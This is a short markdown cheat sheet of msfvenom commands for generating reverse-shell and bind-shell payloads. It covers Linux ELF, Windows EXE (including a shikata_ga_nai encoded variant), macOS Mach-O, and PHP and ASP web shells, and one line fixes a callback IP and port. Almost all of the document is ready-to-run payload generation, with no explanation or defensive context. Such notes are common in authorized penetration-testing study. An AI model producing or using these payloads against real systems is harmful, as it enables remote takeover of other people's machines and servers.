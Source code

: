 

## MSFvenom


List payloads
    msfvenom -l

### Binaries Payloads

Linux Meterpreter Reverse Shell
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > shell.elf

Linux Bind Meterpreter Shell
    msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > bind.elf

Linux Bind Shell
    msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > term.elf

Windows Meterpreter Reverse TCP Shell
    staged
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
    stageless
    msfvenom -p windows/meterpreter_reverse_tcp

Windows Reverse TCP Shell
    staged : need msf handler
    msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
    stageless : nc ok
    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.18 LPORT=4444 -f exe > shell2.exe

    
Windows Encoded Meterpreter Windows Reverse Shell
    msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe

Mac Reverse Shell
    msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f macho > shell.macho

Mac Bind Shell
    msfvenom -p osx/x86/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f macho > bind.macho


### Web Payloads

PHP Meterpreter Reverse TCP
    msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php
    cat shell.php | pbcopy && echo ‘<?php ‘ | tr -d ‘\n’ > shell.php && pbpaste >> shell.php

ASP Meterpreter Reverse TCP
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f asp > shell.asp
